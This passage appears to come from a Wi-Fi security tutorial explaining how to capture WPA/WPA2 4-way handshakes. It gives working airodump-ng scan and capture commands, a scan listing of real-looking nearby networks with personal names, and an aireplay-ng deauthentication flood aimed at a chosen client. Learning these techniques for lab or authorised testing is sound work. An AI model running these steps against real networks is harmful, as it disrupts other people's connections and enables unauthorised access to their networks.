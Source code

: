 - Also, you might be thinking, why we needed to run a fake authentication attack using `aireplay-ng`? The answer is simple, we needed to associate with the access point to be able to send EAPOL packets, if not associated the network would have just ignored us.

## Capturing the Handshake

- Now, if WPS is disabled on the target network, or if it's enabled but configured to use push button configuration (PBC), than the method we disucssed just now before will not work. Therefore, we will have to go and crack the actual WPA/WPA2 Encryption.

- In WPA/WPA2 the keys are unique, they are temporary, and are much longer than WEP. Therefore, the packets sent in the air contained no information that is useful for us. So, it doesn't matter even if we capture 1 million packets, we can't use them to crack the key.

- The only packets that contain useful information are the handshake packets, also known as 4-way handshake packets. These are 4 packets transferred b/w a client and an access point when the client tries to connect to the access point.

- We will start by running `airodump-ng` to get info about the networks in the area.

  ```bash
  root@kali:~# airodump-ng --band abg
   CH 48 ][ Elapsed: 36 s ][ 2025-07-28 06:50 
  
   BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
  
   C4:95:4D:37:AE:61   -1        0        1    0  11   -1   WPA              <length:  0>         
   E4:FA:C4:3C:9F:0E   -1        0        2    0  36   -1   WPA              <length:  0>         
   E4:FA:C4:0C:F3:33  -72        0        0    0  -1   -1                    <length:  0>         
   44:95:3B:88:14:C1  -74       10        0    0 153  866   WPA2 CCMP   PSK  Goldenenclave603     
   B4:3D:08:2D:91:40  -80       10        0    0 149  866   WPA2 CCMP   PSK  Rahul Agarwal_5G     
   30:DE:4B:B5:3C:19  -82       15        0    0  44  390   WPA2 CCMP   PSK  RakshaDeepak_5g      
   6C:4F:89:16:4F:FA  -80       16        0    0  40  866   WPA2 CCMP   PSK  Airtel_Sathvik
   CE:82:A9:6D:BB:76  -59        5        0    0  11  260   WPA2 CCMP   PSK  Avik                 
   B4:3D:08:2D:91:41  -54        4        0    0  10  270   WPA2 CCMP   PSK  Rahul Agarwal_2.4G   
   20:0C:86:43:98:98  -76        5        0    0  13  270   WPA2 CCMP   PSK  SM-2.4G              
   22:0C:86:53:98:98  -66        6        0    0  13  270   WPA2 CCMP   PSK  www.excitel.com      
  ```
  
- So, as we can see, we have a lot of Networks in the area using WPA2 Encryption. The next thing we will do is we will capture the packets on the target network of our choice using `airodump-ng`.

  ```bash
  root@kali:~# airodump-ng --bssid TARGET_MAC -c TARGET_CHANNEL -w filename wlan0
  ```

- Let's say no one is actually connecting to the target network, so what we can do is we can deauthenticate a client from the network, so that it reconnects and we can capture the handshake packets. This we can do using the command:

  ```bash
  root@kali:~# aireplay-ng --deauth 1000000 -a TARGET_MAC -c CLIENT_MAC -D wlan0
  ```
  
- Once, the client is deauthenticated, it will try to reconnect to the access point, and in the process it will send the handshake packets. We can capture these packets using `airodump-ng` command we ran earlier.
